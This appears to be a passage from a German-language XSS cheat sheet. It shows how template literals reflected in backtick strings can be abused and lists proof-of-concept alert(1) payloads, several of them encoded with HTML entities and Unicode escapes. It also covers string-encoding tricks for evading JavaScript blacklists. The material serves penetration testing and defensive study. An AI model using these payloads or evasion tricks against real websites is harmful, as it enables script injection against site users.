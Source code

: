 Um **Strings** neben einfachen und doppelten Anführungszeichen zu erstellen, akzeptiert JS auch **Backticks** **` `` `**. Dies wird als Template-Literale bezeichnet, da sie es ermöglichen, **JS-Ausdrücke einzubetten** mit der `${ ... }` Syntax.\
Daher, wenn Sie feststellen, dass Ihre Eingabe innerhalb eines JS-Strings, der Backticks verwendet, **reflektiert** wird, können Sie die Syntax `${ ... }` missbrauchen, um **willkürlichen JS-Code** auszuführen:

Dies kann **missbraucht** werden mit:
```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````
### Kodierte Codeausführung
```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```
### Unicode Encode JS-Ausführung
```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
### JavaScript-Umgehung von Blacklist-Techniken

**Strings**
```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
"\h\e\l\l\o"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```
**Spezielle Escapes**
```javascript
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
// Any other char escaped is just itself
```